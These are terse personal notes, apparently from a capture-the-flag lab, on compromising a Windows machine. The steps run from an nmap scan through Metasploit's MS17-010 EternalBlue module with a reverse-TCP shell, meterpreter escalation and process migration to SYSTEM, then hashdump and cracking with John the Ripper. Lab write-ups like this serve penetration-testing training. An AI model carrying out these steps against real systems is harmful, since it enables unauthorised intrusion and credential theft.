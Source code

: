 # set up
- mkdir blue
- subl blue notes
  - export IP={vic ip}

# Recon
- nmap -sC -sV -oN ~/blue/initial_nmap $IP -vv
- exploit - SMBv2 - Shodowbox - ms17-010

# Access
- msfconsole
  - search ms17-010
  - exploit/windows/smb/ms17_010_eternalblue
  - set RHOSTS
  - set payload windows/x64/shell/reverse_tcp

  - Bckground shell (ctrl + Z)

# Escalate
- run post/multi/manage/shell_to_meterpreter
- use multi/manage/shell_to_meterpreter
- set session {session id}
- sessions {session_#}

- getsystem - verify escalation
- ps - identify running processes
- migrate to a NT Authority\system
- migrate PROCESS_ID

# Crack
- hashdump
  - copy hashes to Blue_notes
  - create jon_hash...etc
  - john the ripper - crack the hashes

# Flags in key locations
- 1st flag - C:/
- 2nd flag - Windows
- 3rd flag - jon/documents

- I used the meterpreter to move between folders, but used power shell to locate the flags
- dir *flag*.* /s

